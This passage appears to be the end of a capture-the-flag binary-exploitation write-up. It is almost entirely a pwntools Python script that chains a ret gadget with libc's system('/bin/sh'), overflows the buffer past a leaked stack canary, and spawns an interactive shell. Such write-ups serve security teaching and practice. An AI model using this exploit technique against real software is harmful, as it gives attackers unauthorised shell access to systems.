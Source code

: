 ```python
#return gadget for aligning the stack
ret = e.address + 0x889

#Second ROP chain to call system("/bin/sh")
rop2 = ROP(e)
rop2.call(ret)
rop2.call(libc.sym['system'], [ next(libc.search(b"/bin/sh\x00")) ])

payload = b"A" * 136 + p64(canary) + b"B" * 8 + rop2.chain()

p.sendline(b"pwned")
p.sendline(payload)

p.recvuntil(b"same!")

log.success("Shell spawned!")

p.interactive()
```

![ss3](images/Screenshot3.png)

That's it ;)
